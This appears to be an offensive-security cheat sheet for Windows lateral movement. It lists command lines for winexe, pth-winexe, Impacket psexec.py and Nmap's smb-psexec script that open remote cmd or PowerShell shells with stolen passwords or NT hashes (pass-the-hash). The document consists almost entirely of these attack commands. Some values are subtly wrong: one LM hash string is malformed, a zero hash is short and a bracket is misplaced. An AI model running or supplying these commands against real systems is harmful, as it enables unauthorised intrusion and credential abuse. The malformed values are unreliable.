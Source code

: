 # Unix Shell

Search Tag(s): #lateral-movement #psexec #impacket #windows

## 01 - Samba Suite Utils

```
$ winexe -U <domain>/<username>%<password> //<IP> <cmd.exe | powershell.exe>
```

Pass the Hash

```
$ pth-winexe -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP> <cmd.exe | powershell.exe>
```

## 02 - Impacket

```
$ psexec.py <domain>/]<username>:<password>@<IP> [-codecs <codec>]
```

- Pass the Hash

```
$ psexec.py <username>@<IP> -hashes <ntlm_hash> [-codecs <codec>]

$ psexec.py [<domain>/]<username>@<IP> -hashes 0000000000000000000000000000000:<nt_hash>

$ psexec.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nt_hash>

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

## 03 - Nmap

```
$ nmap -p 445 -Pn --script smb-psexec --script-args 'smbuser=<username>,smbhash=<nt_hash>' <IP>/<CIDR>

$ sudo nmap -p U:137,T:139 -Pn -sUS --script smb-psexec --script-args 'smbuser=<username>,smbhash=<nt_hash>'
```